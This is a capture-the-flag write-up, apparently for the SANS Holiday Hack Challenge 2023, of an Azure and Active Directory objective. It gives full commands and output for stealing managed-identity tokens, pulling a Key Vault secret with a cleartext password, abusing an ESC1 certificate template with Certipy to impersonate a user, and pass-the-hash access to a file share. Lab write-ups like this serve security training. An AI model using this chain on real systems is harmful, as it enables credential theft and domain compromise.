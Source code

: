 # OBJECTIVE 19 - Active Directory #
_Completed by 3.03% of challenge participants_
## OBJECTIVE : ##
>Go to Steampunk Island and help Ribb Bonbowford audit the Azure AD environment. What's the name of the secret file in the inaccessible folder on the *FileShare*?
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 19</summary>
  
>-	Certificates are everywhere. Did you know Active Directory (AD) uses certificates as well? Apparently, the service used to manage them can have misconfigurations too.
>-	It looks like Alabaster's SSH account has a couple of tools installed which might prove useful.
</details>

#  

## PROCEDURE : ##
Now that we are logged in as alabaster (after complecting [OBJECTIVE 17 - Certificate SSHennanigans](OBJECTIVE%2017%20-%20SSHennanigans%20.md)), we can go ahead and request an Azure access token for our new user:
```console
$ curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2021-02-01&resource=https://management.azure.com/' -H Metadata:true -s | jq
```
The contents of this token are stored in the shell variable `$TOKEN`.

Now we can list the available resources on Azure by calling the REST API with curl:
```console
$ curl https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resources?api-version=2021-04-01 -H "Authorization: Bearer $TOKEN" 
```
```json
{  "value": [
    {
      "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv",
      "name": "northpole-it-kv",
      "type": "Microsoft.KeyVault/vaults",
      "location": "eastus",
      "tags": {}
    },
    {
      "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv",
      "name": "northpole-ssh-certs-kv",
      "type": "Microsoft.KeyVault/vaults",
      "location": "eastus",
      "tags": {}
    }]}
```
From the resulting output we can see there are two keyvaults;  `northpole-it-kv` and `northpole-ssh-certs-kv`.  It would be a good idea to see what more we can learn about these vaults by using suitable REST API calls[^1] . But first we need to create a new token to use with `https://vault.azure.net` (instead of `https://management.azure.com`).
```console
$ curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2021-02-01&resource=https://vault.azure.net' -H Metadata:true -s | jq
```

We’ll assing this new token to the shell variable `$TOKEN2` and we can now find more information about the key vaults.

```console
$ curl https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/providers/Microsoft.KeyVault/vaults?api-version=2022-07-01 -H "Authorization:Bearer $TOKEN2" | jq
```

We can get a list of secrets by using the following API call, from which we learn that there is a secret called `tmpAddUserScript` which is recoverable.
```console
alabaster@ssh-server-vm:~/impacket$ curl https://northpole-it-kv.vault.azure.net/secrets/?api-version=7.4 -H "$TOKEN2" | jq
```
```json
{
  "value": [
    {
      "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript",
      "attributes": {
        "enabled": true,
        "created": 1699564823,
        "updated": 1699564823,
        "recoveryLevel": "Recoverable+Purgeable",
        "recoverableDays": 90
      },
      "tags": {}
    }
  ],
  "nextLink": null
}
```

So, we can now retrieve the secret as follows:
```console
alabaster@ssh-server-vm:~/impacket$ curl https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=7.4 -H "$TOKEN2" | jq
```
```json
{
  "value": "Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru",                                                                   
  "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d",
  "attributes": {
    "enabled": true,
    "created": 1699564823,
    "updated": 1699564823,
    "recoveryLevel": "Recoverable+Purgeable",
    "recoverableDays": 90
  },
  "tags": {}
}
```

The resulting output gives us tons of useful information.  Including the AD domain, the domain controller’s IP and even a username and cleartext password.

`  $UserName = `**`elfy`**

`  $UserDomain =` **`northpole.local`**

`  $Password:` **``J4`ufC49/J4766``**

`  $DCIP =` **`10.0.0.53`**

Armed with this information we can start using the tools found in Alabaster’s directory.  We can start with **Certipy** with the `find -vulnerable` command (as conveniently suggested in [OBJECTIVE 4 – Reportinator](OBJECTIVE%2004%20-%20Reportinator%20.md)).  Watch-out for the escape character before the "`" in the password.
```console
$ certipy find -vulnerable -dc-ip 10.0.0.53 -target northpole.local -u elfy@northpole.local -p "J4\`ufC49/J4766"
```

Looking at the contents of the text file generated by Certipy we can immediately see that it has flagged an **ESC1** vulnerability[^2]  with the CA allowing users with low domain privileges to enrol new users, manager approval is disabled and the template allows users to specify a Subject Alternative Name (SAN) when requesting a certificate.  We also learn that the template name is `NorthPoleUsers` and that the Certificate Authority name is `northpole-npdc01-CA`.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2023/assets/60655500/9204c423-495b-4fb0-a214-244a2a4ea796)

At this point it is useful for us to try and find out what other users might be on the AD apart from `elfy` to determine which one we should try to impersonate.  To achieve this, we can use `GetADUsers.py`, passing the username and password for `elfy`. 
```console
$ GetADUsers.py -all northpole.local/elfy:J4\`ufC49/J4766 -dc-ip 10.0.0.53
```
```console
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying 10.0.0.53 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ----------------------  -------------------  -------------------
alabaster                                    2024-01-02 01:03:04.977413  2024-01-02 01:16:32.834625 
Guest                                         <never>              <never>             
krbtgt                                        2024-01-02 01:10:17.609745  <never>             
elfy                                          2024-01-02 01:12:48.407584  2024-01-02 13:24:22.777995 
wombleycube                                   2024-01-02 01:12:48.501337  2024-01-02 13:18:56.309364
```

Nice! We can see that **Wombley Cube** has an account on the AD with username `wombleycube`.  So, we can now use Certipy to request a certificate for `wombleycube@northpole.local` using the credentials for `elfy`!

```console
$ certipy req -u elfy@northpole.local -p "J4\`ufC49/J4766" -ca northpole-npdc01-CA -template NorthPoleUsers -upn wombleycube@northpole.local -dc-ip 10.0.0.53
```
```console
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 77
[*] Got certificate with UPN 'wombleycube@northpole.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'wombleycube.pfx'
```

This creates a certificate file called `wombleycube.pfx` and we can now use this with Certipy to authenticate to the domain controller:
```console
$ certipy auth -pfx wombleycube.pfx -dc-ip 10.0.0.53
```
```console
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: wombleycube@northpole.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'wombleycube.ccache'
[*] Trying to retrieve NT hash for 'wombleycube'
[*] Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
```

Now we have a NT hash for wombleycube@northpole.local and we can use a **pass-the-hash** attack to access the file-share using `smbclient.py`.
```console
$ smbclient.py -dc-ip 10.0.0.53 -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 northpole.local/wombleycube@10.0.0.53
```
```console
# use FileShare
# ls
drw-rw-rw-          0  Tue Jan  2 01:13:44 2024 .
drw-rw-rw-          0  Tue Jan  2 01:13:41 2024 ..
-rw-rw-rw-     701028  Tue Jan  2 01:13:43 2024 Cookies.pdf
-rw-rw-rw-    1521650  Tue Jan  2 01:13:44 2024 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Tue Jan  2 01:13:44 2024 SignatureCookies.pdf
drw-rw-rw-          0  Tue Jan  2 01:13:44 2024 super_secret_research
-rw-rw-rw-        165  Tue Jan  2 01:13:44 2024 todo.txt
# cd super_secret_research
# ls
drw-rw-rw-          0  Tue Jan  2 01:13:44 2024 .
drw-rw-rw-          0  Tue Jan  2 01:13:44 2024 ..
-rw-rw-rw-        231  Tue Jan  2 01:13:44 2024 InstructionsForEnteringSatelliteGroundStation.txt
```
And that completes this challenge – we have the name of the secret file, and we can also peek inside for an interesting message.😊

```console
# cat InstructionsforEnteringSatelliteGroundStation.txt
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

And he whispered, 'Now I shall be out of sight;
So through the valley and over the height.'
And he'll silently take his way.
```


[^1]:[https://learn.microsoft.com/en-us/rest/api/keyvault/keyvault/vaults/list-by-subscription?view=rest-keyvault-keyvault-2022-07-01&tabs=HTTP](https://learn.microsoft.com/en-us/rest/api/keyvault/keyvault/vaults/list-by-subscription?view=rest-keyvault-keyvault-2022-07-01&tabs=HTTP)
[^2]:[https://github.com/arth0sz/Practice-AD-CS-Domain-Escalation](https://github.com/arth0sz/Practice-AD-CS-Domain-Escalation)
